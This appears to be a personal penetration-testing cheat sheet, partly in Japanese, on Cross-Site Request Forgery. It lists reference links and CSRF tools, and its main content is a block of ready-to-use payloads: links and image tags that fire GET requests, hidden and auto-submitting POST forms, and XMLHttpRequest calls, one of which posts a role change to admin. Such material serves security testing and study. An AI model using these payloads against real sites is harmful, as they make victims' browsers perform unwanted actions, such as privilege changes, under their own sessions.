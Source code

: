 # # 参考文献
- https://github.com/six2dez/pentest-book/blob/master/enumeration/web/csrf.md
- [自分で作ったヤツ](obsidian://open?vault=CheatSheet&file=%E5%AD%A6%E7%BF%92%E9%80%B2%E6%8D%97%E7%AE%A1%E7%90%86%2FPortSwigger%2F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AE%E8%AA%AC%E6%98%8E%2FCross%20site%20Request%20Forgery%20(CSRF))
# # Tools
- https://github.com/0xInfection/XSRFProbe
- https://github.com/0xInfection/CSRFPocGenerator.git

# # 簡単な攻撃
```payload
# HTML GET
<a href=”http://vulnerable/endpoint?parameter=CSRFd">Click</a>

# HTML GET (no interaction)
<img src=”http://vulnerable/endpoint?parameter=CSRFd">

# HTML POST:
<form action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>

# HTML POST (no interaction)
<form id="autosubmit" action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>

# JSON GET:
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://vulnerable/endpoint");
xhr.send();
</script>

# JSON POST
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://vulnerable/endpoint");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```